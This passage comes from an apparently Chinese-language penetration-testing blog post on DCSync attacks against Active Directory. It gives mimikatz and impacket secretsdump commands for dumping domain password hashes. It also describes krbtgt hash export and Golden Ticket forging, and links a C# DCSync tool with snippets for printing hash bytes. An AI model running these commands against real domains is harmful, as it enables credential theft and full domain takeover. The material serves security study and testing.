 ```
mimikatz.exe "lsadump::dcsync /domain:test.com /user:administrator /csv" exit
```

### 2.Python实现([secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/impacket/examples/secretsdump.py))

示例命令：

```
python secretsdump.py test/Administrator:DomainAdmin123!@192.168.1.1
```

### 3.Powershell实现([MakeMeEnterpriseAdmin](https://github.com/vletoux/MakeMeEnterpriseAdmin))

核心代码使用C Sharp实现，支持以下三个功能：

- 通过DCSync导出krbtgt用户的hash
- 使用krbtgt用户的hash生成Golden ticket
- 导入Golden ticket

**注：**

我在测试环境下实验结果显示，生成Golden ticket的功能存在bug，导入Golden ticket后无法获得对应的权限

### 4.C Sharp实现

我在([MakeMeEnterpriseAdmin](https://github.com/vletoux/MakeMeEnterpriseAdmin))的基础上做了以下修改：

- 支持导出所有用户hash
- 导出域sid
- 导出所有域用户sid

代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/SharpDCSync.cs

#### 补充：代码开发细节

输出Dictionary中所有的键和值：
 
```
foreach(string key in values.Keys)
{
    Console.WriteLine(string.Format("key:{0} value{1}", key, values[key]));
}
```

byte数组转string，用来输出hash：

```
byte[] data = values["ATT_UNICODE_PWD"] as byte[];
Console.WriteLine(BitConverter.ToString(data).Replace("-",""));
```

string转byte数组，用来将hash转换成byte数组：
